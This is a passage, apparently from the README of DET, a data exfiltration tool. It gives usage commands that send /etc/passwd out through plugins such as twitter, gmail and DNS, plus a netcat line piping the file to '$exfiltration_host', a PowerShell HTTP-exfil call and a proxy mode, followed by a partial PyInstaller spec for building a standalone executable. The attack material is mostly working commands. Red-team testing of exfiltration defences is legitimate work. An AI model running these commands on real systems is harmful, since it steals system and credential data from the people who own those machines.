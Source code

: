 To load *only* twitter and gmail modules: 

```bash
python det.py -c ./config.json -p twitter,gmail -f /etc/passwd
```

To load every plugin and exclude DNS: 

```bash
python det.py -c ./config.json -e dns -f /etc/passwd
```
You can also listen for files from stdin (e.g output of a netcat listener):

```bash
nc -lp 1337 | python det.py -c ./config.json -e http -f stdin
```
Then send the file to netcat:

```bash
nc $exfiltration_host 1337 -q 0 < /etc/passwd
```
Don't forget netcat's `-q 0` option so that netcat quits once it has finished sending the file.

And in PowerShell (HTTP module): 

```powershell
PS C:\Users\user01\Desktop>
PS C:\Users\user01\Desktop> . .\http_exfil.ps1
PS C:\Users\user01\Desktop> HTTP-exfil 'C:\path\to\file.exe'
```

## Proxy mode:

In this mode the client will proxify the incoming requests towards the final destination.
The proxies addresses should be set in ```config.json``` file.

```bash
python det.py -c ./config.json -p dns,icmp -Z
```

# Standalone package

DET has been adapted in order to run as a standalone executable with the help of [PyInstaller](http://www.pyinstaller.org/).

```bash
pip install pyinstaller
```

The spec file ```det.spec``` is provided in order to help you build your executable.

```python
# -*- mode: python -*-

block_cipher = None

import sys
sys.modules['FixTk'] = None

a = Analysis(['det.py'],
             pathex=['.'],
             binaries=[],
             datas=[('plugins', 'plugins'), ('config-sample.json', '.')],
             hiddenimports=['plugins/dns', 'plugins/icmp'],
             hookspath=[],
             runtime_hooks=[],
             excludes=['FixTk', 'tcl', 'tk', '_tkinter', 'tkinter', 'Tkinter'],
             win_no_prefer_redirects=False,
             win_private_assemblies=False,
             cipher=block_cipher)
pyz = PYZ(a.pure, a.zipped_data,
```
